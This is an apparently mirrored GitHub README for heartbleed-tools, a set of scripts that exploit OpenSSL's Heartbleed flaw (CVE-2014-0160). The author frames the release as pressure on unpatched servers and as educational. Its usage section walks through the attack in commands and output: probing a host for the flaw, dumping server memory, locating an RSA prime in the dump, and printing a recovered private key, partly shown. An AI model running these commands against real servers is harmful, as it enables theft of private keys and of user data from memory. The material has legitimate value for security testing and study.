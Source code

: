 # heartbleed-tools

OpenSSL Heartbleed (CVE-2014-0160) vulnerability scanner, data miner and RSA key-restore tools.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/einaros](https://github.com/einaros) |
| Url      | [https://github.com/einaros/heartbleed-tools](https://github.com/einaros/heartbleed-tools)                                               |
| Stars    | 95                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

## OpenSSL Heartbleed (CVE-2014-0160) vulnerability scanner, data miner and RSA key-restore tools.

Author: Einar Otto Stangvik / @einaros / https://hacking.ventures

Since the cat is long since out of the bag, and others have begun publishing their tools,
I'm putting mine out there too. Hopefully this amplifies the pressure on those that still
haven't patched or upgraded their severs. Others may find the tools of educational value.

Unlike many other Heartbleed PoCs, this tool will supply most possible ciphers in the initial
ClientHello packet. Whatever cipher the server picks will be used for all subsequent ClientHello
packets in a dump session. That should ensure proper vulnerability detection, as well as
decrease overhead once a cipher has been found.

Use these tools as you please, but do us all a favor: Solve problems instead of creating them.

Inspired by the work and publications of:
- Jared Stafford
- Jeremi M Gosney
- Ben M Murphy 
- ... and many others.

### Usage:

Here seen recovering one of the RSA primes of the CloudFlare challenge 34 times in one minute. That equals getting the full private key 34 times in one minute.
![img](https://i.imgur.com/zfEBObE.png)

```
# Test vulnerability using unobtrusive mode
# This will request N bytes, but supply N-1 itself, so that the server will
# only actually bleed a single byte if vulnerable. Suggested N is 16360 in this
# case, since that will result in a single TLS record: 
# 3 + 2 + 1 + 2 + 16360 + 16 bytes = 0xFFFF.

$ ./hb.py -u -n 16360 -p 443 www.example.int
www.example.int:443 is vulnerable

# Dupm data from CloudFlare's old challenge server

$ ./hb.py -p 443 www.cloudflarechallenge.com -n 0xF000 -l 100 -t 50 -d -o cloudflare-dump.bin
[2014/04/14 10:55:48] Incoming data rate: 85877 kbps
... runs for a while

# Look for prime in the dump

$ ./keyscan.py cloudflare.crt cloudflare-dump.bin
Key size: 128
Data length: 173476834
cloudflare-dump.bin Offset 0xf155ec: p = 13827796798740740191625032142481917804987720337701...

# Extract key once found

$ ./keyscan.py cloudflare.crt cloudflare-dump.bin 0xf155ec
Prime should be at offset: f155ec
Key size: 128

Hexdump of surrounding data:
f151ec: D0 00 00 00 00 00 00 00 00 00 00 00 00 00 30 C0  ..............0.
f151fc: 3C 01 00 00 00 00 00 00 00 00 00 00 00 00 90 8B  <...............
f1520c: D0 00 00 00 00 00 02 00 C3 A3 4D 08 48 47 00 00  ..........M.HG..
...

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAm0AWkVnDx5feOctdC97Ztgvtd25uKKmhjCHpLycmExe1RiRSl/hGIL7f8Fg/
qiUztVm5uXZJ1UG7dzz+9OtTNh+v27BtzPsU3yivHevwAB1mTMtP6bPuXBjzsxRcC9yVcBBWpKBM
...
```

### License

The author can't and won't hold any right to any part of this package. It's based on open ideas,
and shall remain open for all he cares.



## Get the content

```
git clone https://github.com/einaros/heartbleed-tools
cd heartbleed-tools
```

{% embed url="https://github.com/einaros/heartbleed-tools" %}

<figure><img src="https://avatars.githubusercontent.com/u/394360?v=4" alt=""><figcaption><p>einaros</p></figcaption></figure>
